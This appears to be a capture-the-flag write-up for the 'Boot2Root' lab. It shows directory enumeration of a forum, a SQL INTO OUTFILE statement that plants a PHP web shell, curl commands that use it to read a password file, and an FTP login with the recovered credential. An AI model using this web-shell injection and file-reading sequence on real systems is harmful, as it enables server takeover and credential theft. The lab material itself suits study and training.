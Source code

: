 # Boot2Root

## Get ssh credentials from the forum 

### When we are root on db we can execute arbitrary commands on ther machine.

First we need a directory with appropriate permissions:

let's find this with `python-dirserach` :

```
root@kali:~/Documents/dirsearch# ./dirsearch.py -u https://10.0.2.14/forum -e forum

 _|. _ _  _  _  _ _|_    v0.3.8
 (_||| _) (/_(_|| (_| )

Extensions: forum | Threads: 10 | Wordlist size: 6046

Error Log: /root/Documents/dirsearch/logs/errors-18-10-22_11-20-55.log

Target: https://10.0.2.14/forum

[11:20:55] Starting:
[11:20:56] 403 -  295B  - /forum/.ht_wsr.txt
[11:20:56] 403 -  288B  - /forum/.hta
[11:20:56] 403 -  297B  - /forum/.htaccess-dev
[11:20:56] 403 -  297B  - /forum/.htaccess.BAK
[11:20:56] 403 -  299B  - /forum/.htaccess-local
[11:20:56] 403 -  299B  - /forum/.htaccess-marco
[...]
[11:21:02] 403 -  314B  - /forum/config/settings/production.yml
[11:21:05] 301 -  315B  - /forum/images  ->  https://10.0.2.14/forum/images/
[11:21:05] 301 -  317B  - /forum/includes  ->  https://10.0.2.14/forum/includes/
[11:21:05] 200 -    5KB - /forum/includes/
[11:21:05] 200 -    5KB - /forum/index
[11:21:05] 200 -    5KB - /forum/index.php
[11:21:05] 200 -    5KB - /forum/index.php/login/
[11:21:05] 301 -  311B  - /forum/js  ->  https://10.0.2.14/forum/js/
[11:21:06] 301 -  313B  - /forum/lang  ->  https://10.0.2.14/forum/lang/
[11:21:07] 301 -  316B  - /forum/modules  ->  https://10.0.2.14/forum/modules/
[11:21:10] 301 -  320B  - /forum/templates_c  ->  https://10.0.2.14/forum/templates_c/
[11:21:10] 200 -    6KB - /forum/templates_c/
[11:21:11] 301 -  315B  - /forum/themes  ->  https://10.0.2.14/forum/themes/
[11:21:11] 301 -  315B  - /forum/update  ->  https://10.0.2.14/forum/update/
```

`templates_c/` seems good let's give it a try :

- [X] SELECT "<?php system($_GET['cmd']) ?>" INTO OUTFILE "/var/www/forum/templates_c/cmd.php"

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=pwd'`

```
/var/www/forum/templates_c
```

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=ls%20`
./../../../home'

```
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```

`$ curl --insecure 'https://10.0.2.5/forum/templates_c/cmd.php?cmd=cat%20`
../../../../home/LOOKATME/password'

```
lmezard:G!@M6f4Eatau{sF"
```

- [X] lmezard:G!@M6f4Eatau{sF"

### ftp 10.0.2.5
```
Connected to 10.0.2.5.
220 Welcome on this server
Name (10.0.2.5:root): lmezard
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.

ftp> get fun
local: fun remote: fun
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for fun (808960 bytes).
226 Transfer complete.
808960 bytes received in 0.02 secs (45.8398 MB/s)

```

exploit fun with the python script.
## We unlock the bomb !
